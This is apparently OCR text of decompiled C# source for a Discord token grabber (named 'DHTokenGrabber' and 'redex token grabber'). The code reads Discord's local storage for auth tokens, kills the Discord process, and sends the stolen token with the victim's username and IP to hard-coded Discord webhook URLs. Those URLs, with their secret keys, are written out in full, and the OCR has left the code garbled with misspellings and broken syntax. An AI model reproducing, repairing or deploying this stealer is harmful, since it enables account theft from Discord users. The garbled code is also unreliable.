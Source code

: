 thub.com/NightfallGT/Mercurial-Grabber/releases
https://discord.com/api/webhooks/915293209297551391/KdUf0SEolCuHIeFHIQfzgJkIHbzjKuTGPtuPIwAr6FQPI0rel2fb5j7NO06iCqwxw2CN
staff
namespace DHTokenGrabber
{   
// token: RID: 365 RVA:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA7nGgcZJSR9WeJs5c4W7kOSh1wqU), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/928799021634555946/9FcAag5KAoQGlh98Vk09m7c10Tunk4HH9PLfsI_6tBsY_1ZSZlZtz9a98Ee2IPR-7GiB").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "⛧♱𝖎𝖇𝖊𝖓𝖑𝖆𝖓𝖉⛧#9921"
                "redex token grabber"
            },
            {
                "avatar_url",
                "https://discord.com/channels/@me/910580649482674176"

            }
        };
        httpClient.PostAsync(WebHook._hookUrl, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: RID:366 RVA:0x00008888 File Offset:e
    
    
   
